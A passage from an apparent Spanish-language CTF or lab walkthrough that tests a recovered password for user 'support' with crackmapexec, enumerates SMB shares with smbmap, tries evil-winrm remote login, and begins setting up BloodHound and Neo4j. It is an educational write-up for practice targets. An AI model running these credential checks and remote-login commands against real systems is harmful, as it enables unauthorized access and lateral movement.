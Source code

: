 ### Crackmapexec

Pongamos que la contraseña es esa, ahora veremos si esta contraseña es correcta para el usuario `support`:

```shell
crackmapexec smb <IP_VICTIM> -u support -p '#00^BlackKnight'
```

Y si al hacer esto nos devuelve un `[+]` seguido de lo que sea, significa que es correcta.

### smbmap Enumerar

Si con esas credenciales queremos enumerar recursos compartidos asociados a este usuario, podremos hacerlo de la siguiente forma:

```shell
smbmap -H <IP_VICTIM> -u 'support' -p '#00^BlackKnight'
```

Y esto nos devolvera la informacion pertinente de dichos recursos asociados a dicho usuario.

### evil-winrm

Tambien podriamos probar a entrar mediante `evil-winrm` a la maquina victima de la siguiente forma:

```shell
evil-winrm -i <IP_VICTIM> -u 'support' -p '#00^BlackKnight'
```

Pero pongamos que no tiene permiso para acceder de forma remota a la maquina con este usuario, por lo que podremos hacer lo siguiente...

### BloodHound y Neo4j

Instalaremos las herramientas, ya que no vienen preinstaladas en kali:

```shell
apt install bloodhound neo4j
```

Ahora inicializamos la base de datos haciendo lo siguiente:

```shell
neo4j console
```

Esto te dara informacion de donde esta corriendo ese servicio, tendras que ver algo como...

```
Remote interface available at http://localhost:7474/
```

Por lo que nos meteremos en nuestro navegador por esa `URL` y cambiaremos la contraseña, por defecto nos vendran las siguientes credenciales:

```
User = neo4j
Pass = neo4j
```
